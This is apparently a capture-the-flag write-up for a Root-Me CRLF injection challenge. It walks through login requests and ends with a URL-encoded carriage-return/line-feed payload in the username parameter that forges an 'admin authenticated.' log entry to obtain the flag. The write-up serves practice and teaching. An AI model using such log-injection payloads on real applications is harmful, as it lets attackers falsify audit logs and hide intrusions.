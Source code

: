 # Challenge18: CRLF

## Ref
    + w3schools: https://www.w3schools.com/tags/ref\_urlencode.ASP

## Solution

    1. This challenge is about '\r' and '\n' symbols
    2. Open Burp suite and go to the target url: http://challenge01.root-me.org/web-serveur/ch14/
    3. Try to login with your information, for example:
```
GET web-serveur/ch14/username=dangphuc&password=godyzac

Result:
dangphuc failed to authenticate.
```
    4. After a while, i realize that we don't need to send password to login:

```
GET web-serveur/ch14/username=dangphuc

Result:
dangphuc failed to authenticate.
```
    
    5. This is the sample logs:

```
admin authenticated.
guest failed to authenticate.
```
    
    6. So now think of CRLF('\r' & '\n'), Can we log the same as 5 ?

```
GET web-serveur/ch14/username=admin%20authenticated.%0D%0Aguest
```

    7. When you make the request in step 6, you will get the flag :)
